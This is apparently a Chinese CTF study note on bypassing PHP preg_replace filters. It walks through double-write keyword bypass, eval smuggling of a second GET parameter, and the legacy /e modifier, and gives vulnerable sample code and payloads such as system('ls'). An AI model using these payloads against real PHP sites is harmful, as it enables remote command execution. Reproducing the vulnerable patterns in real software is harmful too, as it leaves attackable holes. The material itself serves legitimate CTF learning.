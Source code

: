 ```yaml
---
title: preg_replace
date: 2024-07-12 20:50:38
categories:
- PHP
tags:
- 函数绕过
---
```


&emsp;&emsp;preg_replace 函数执行一个正则表达式的搜索和替换。相比于preg_match 函数它多了一个替换的功能（没错，说了一句废话）  
&emsp;&emsp;通常来说，它有三个参数，preg_repalce($pattern,$repalcement,$subject);-->搜索$subject中匹配$pattern的部分，并以$replacement进行替换。话不多说，看题目就懂了。  
注：str_replace也是一样的特性，区别是正则的规则匹配

### 双写绕过
```
if(isset($_GET["str"]))
{
    $str = preg_replace('/HYNUCTF/',"",$_GET['str']);
    if($str === "HYNUCTF")
    {
        echo $flag;
    }
    else
        die('菜，就多练');
}
```
&emsp;&emsp;既然HYNUCTF组合会变为空那么可以通过双写拼接进行绕过，原理跟sql注入的关键字绕过差不多。  
payload：HYNU<font color=red>HYNUCTF</font>CTF  
&emsp;&emsp;红色部分被替换成了空，那么剩下的就拼接成了是吧。

### eval创建新变量绕过
&emsp;&emsp;这是个很有用的地方，很多题型都适用这个，当遇到过滤了关键字符或者没有头绪的时候，可以使用这个方法进行创建一个新变量去执行它。  
&emsp;&emsp;例如
```
$str = preg_replace('/system/',"",$_GET['str']);
······
payload：  
?str=eval($_GET['A']);&A=system('ls');
```
&emsp;&emsp;这是利用eval执行system命令去寻找拥有flag的页面，后续同理我们可以使用GET和POST方法来进行绕过。

### 经典漏洞/e
&emsp;&emsp;preg_replace函数的特性，/e可执行模式，此为PHP专有参数，例如preg_replace函数。也就是说，它的$repalcement部分会被当做命令执行。  
```
<?php
if(isset($_GET['str']))
{
    echo preg_replace('/HYNUCTF/e',$_GET['str'],"XTWASYS");
}
```
&emsp;&emsp;此时传入?str=system("ls");就可执行此代码。
